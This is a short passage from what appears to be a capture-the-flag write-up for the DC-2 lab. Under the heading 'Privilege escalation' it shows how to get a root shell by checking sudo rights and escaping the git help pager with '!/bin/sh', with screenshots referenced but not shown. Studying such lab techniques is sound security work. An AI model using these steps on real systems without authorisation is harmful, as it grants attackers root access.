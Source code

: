 ## Privilege escalation

sudo -l

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2014.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2014.png)

sudo git help config

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2015.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2015.png)

!/bin/sh

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2016.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%2016.png)
